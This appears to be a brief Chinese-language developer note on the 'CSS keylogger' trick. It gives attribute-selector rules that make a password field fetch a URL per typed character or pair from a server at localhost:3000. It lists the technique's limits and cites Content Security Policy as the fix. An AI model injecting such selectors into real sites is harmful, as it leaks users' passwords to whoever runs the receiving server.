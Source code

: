 ## css Log
最近很火的，css跟踪用户输入密码，其实也没有那么容易
```css
input[type="password"][value$="a"] {
  background-image: url("http://localhost:3000/a");
}
```
1.request其实到达后端的顺序不能保证，继续加强
```css
// a 开头
input[value^="a"] {
  background-image: url("http://localhost:3000/a_");
}
// aa 
input[value*="aa"] {
  background-image: url("http://localhost:3000/aa");
}
// bb
input[value*="ab"] {
  background-image: url("http://localhost:3000/ab");
}
```
2. 输入框value的值不会变（除非用react）
3. 有重复的字符但是同一个请求不会发送两次
解决办法: response header的一个设置
[Content Security Policy](http://www.ruanyifeng.com/blog/2016/09/csp.html)
